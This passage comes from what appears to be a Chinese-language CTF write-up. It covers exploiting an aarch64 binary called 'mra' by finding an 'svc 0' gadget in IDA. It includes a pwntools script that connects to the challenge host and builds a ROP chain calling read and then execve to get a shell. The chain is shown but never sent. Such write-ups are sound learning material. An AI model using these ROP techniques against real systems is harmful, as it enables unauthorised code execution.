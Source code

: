 ![img](https://i.imgur.com/1v2Ebom.png)

## 尋找 gadget

利用 IDA 的 **find text** 搭配 regular express 搜尋 `svc *0` 便可以搜尋到很多執行 system call 的 gadget，

而這裡我挑的是這段:

![](https://i.imgur.com/iSM4UfH.png)



## exploit

將上面得到的資訊整理再一起，我們可以得到以下 exploit:

```python
from pwn import *
context.clear()
context.update(arch="aarch64")

local = False

def encode(s):
    return s.replace(b'\x00', b'%\x00\x00')
p = None
if local:
    p = gdb.debug("./mra", gdbscript = '''
        b *0x400338
        b *0x4005d4
        b *0x4002C0
    '''
    )
else:
    p = remote("172.17.0.2", 8000)
rop_chain = flat([
    # execve(0x41d000, 0, 0)
    0, # x4
    0, # x3
    0, # x2
    0, # x1
    0x41D000,   # x0
    221, # x8

    # read(0, 0x41d000,64)
    0,   # x4
    0,   # x3
    0x10, # x2
    0x41D000, # x1
    0,   # x0
    63, # x8

])
'''
.text:00000000004007EC                 LDUR            X8, [SP,#-0x30+arg_28]
.text:00000000004007F0                 LDUR            X0, [SP,#-0x30+arg_20]
.text:00000000004007F4                 LDUR            X1, [SP,#-0x30+arg_18]
.text:00000000004007F8                 LDUR            X2, [SP,#-0x30+arg_10]
.text:00000000004007FC                 LDUR            X3, [SP,#-0x30+arg_8]
.text:0000000000400800                 LDUR            X4, [SP,#-0x30+arg_0]
.text:0000000000400804                 SVC             0
.text:0000000000400808                 SUB             SP, SP, #0x30 ; '0'
.text:000000000040080C                 RET
'''
```